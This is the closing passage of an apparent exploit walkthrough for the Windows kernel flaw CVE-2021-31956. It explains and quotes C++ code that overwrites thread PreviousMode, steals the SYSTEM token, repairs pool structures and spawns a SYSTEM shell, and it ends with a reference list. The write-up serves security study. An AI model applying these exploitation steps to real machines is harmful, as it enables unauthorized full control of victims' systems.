For each `_KTHREAD`, we aim `StateData` at `kthread + 0x220` and, using our WNF write primitive (`NtUpdateWnfStateData` with the `prev_mode` buffer of zeros), write three zero bytes across that region. The meaningful byte is `PreviousMode` — as the `printf` confirms, and despite the leftover `// kthread.Process` inline comment carried over from the original proof-of-concept. Setting `PreviousMode` to `0` tells the kernel that the thread's requests originate from kernel mode, which causes `NtReadVirtualMemory` and `NtWriteVirtualMemory` to skip their access validation entirely. That is precisely what turns the `read64` and `write64` helpers into a full arbitrary kernel read/write primitive. Every thread is patched so that no matter which one services our later syscalls, the checks are bypassed.
 
With arbitrary read/write in hand, we escalate and stabilize: 
 
```cpp
own_eproc_obj = (PEPROCESS)own_eproc;
 
if (!NT_SUCCESS(steal_token(own_eproc_obj)))
    goto out;
 
ctx = read64(&(own_eproc_obj->WnfContext));
 
if (!NT_SUCCESS(fix_runrefs(ctx)))
    goto out;
 
for (int i = 0; i < MAX_THREAD_SEARCH; i++) {
    if (kthreads[i] == 0)
        break;
 
    arbwrite_name->StateData = (UINT64)kthreads[i] + 0x220; // kthread.Process
 
    if (!NT_SUCCESS(write_pool(statenames, overflow_idx, write_data, fix_size)))
        goto out;
 
    write_data_sz = 0x5000;
    memcpy(write_data, read_data, 0x5000);
 
    ext_statename = *(PULONGLONG) & (arbwrite_name->StateName) ^ STATENAME_CONST;
    if (!NT_SUCCESS(_NtUpdateWnfStateData((WNF_STATE_NAME *)&ext_statename, old_prev_mode, 0x3, NULL, NULL, 0, 0))) {
        log_warn("main::_NtUpdateWnfStateData()1");
        goto out;
    }
 
    printf("[+] Restored PreviousMode of _KTHREAD %d to 1\n", i + 1);
}
```
 
We cast `own_eproc` to a `PEPROCESS` and call `steal_token`, which — now that the `read64`/`write64` primitives are live — walks `ActiveProcessLinks`, finds the SYSTEM process (`UniqueProcessId == 0x4`), and copies its `Token` into our own `_EPROCESS`. Our process is now running with the SYSTEM token. Next, we read our `WnfContext` pointer and hand it to `fix_runrefs`, which traverses the temporary names list and repairs the `Header` and `RunRef` fields of any `_WNF_NAME_INSTANCE` structures the overflow left in a corrupted state, heading off a later `RunRef`-related BSOD. Finally, we walk the thread list one more time and rewrite `PreviousMode` back to `1` using `old_prev_mode`. Note that this restore uses the WNF write primitive rather than `read64`/`write64`, so it does not depend on `PreviousMode` still being `0`; having already stolen the token, we no longer need arbitrary kernel R/W, and returning every thread's `PreviousMode` to its original value keeps the system stable.
 
All that remains is to restore the corrupted name instance, launch our elevated shell, and clean up: 
 
```cpp
if (!NT_SUCCESS(write_pool(statenames, overflow_idx, read_data, fix_size)))
    goto out;
 
puts("[+] Restored corrupted adjacent WNF_NAME_INSTANCE");
 
if (NT_SUCCESS(create_cmd()))
    puts("[+] Enjoy system shell");
 
out:
    if (statenames)
        free(statenames);
 
    if (read_data)
        free(read_data);
 
    if (write_data)
        free(write_data);
 
    return 0;
 
```
 
The final `write_pool` writes the pristine `read_data` — rather than our modified `write_data` — back over the adjacent `_WNF_NAME_INSTANCE`, restoring its original `StateData` pointer and fields so the structure is left exactly as it was before we hijacked it. With the pool repaired and our process holding the SYSTEM token, `create_cmd` spawns `cmd.exe`, which inherits our elevated context and yields an interactive SYSTEM shell. Regardless of whether execution reached the shell or bailed early, control falls through to `out`, where the three heap allocations are freed and `main` returns `0`.
 
With that, we have traced CVE-2021-31956 end to end: from the `NtfsQueryEaUserEaList` integer underflow, through a WNF-based read/write primitive built out of a corrupted `_WNF_STATE_DATA` chunk and an adjacent `_WNF_NAME_INSTANCE`, to a `PreviousMode` overwrite that unlocks arbitrary kernel memory access and, ultimately, a SYSTEM token theft.

# References

[Return to Top](#table-of-contents)

* [Rapid7's Blog](https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/)
* [Alex Ionescu's Blog](https://web.archive.org/web/20191229080007/https://gracefulbits.com/2018/08/13/find-which-process-is-using-the-microphone-from-a-kernel-mode-driver/)
* [Gabrielle Viala's Blog](https://blog.quarkslab.com/playing-with-the-windows-notification-facility-wnf.html)
* [Alex Plaskett's Blog](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/)
* [Jan Vojtesek's Blog](https://decoded.avast.io/janvojtesek/exploit-kits-vs-google-chrome/)
* [Y3A's Blog](https://y3a.github.io/2022/09/03/cve-2021-31956/)
* [Y3A's Proof-of-Concept](https://github.com/Y3A/CVE-2021-31956)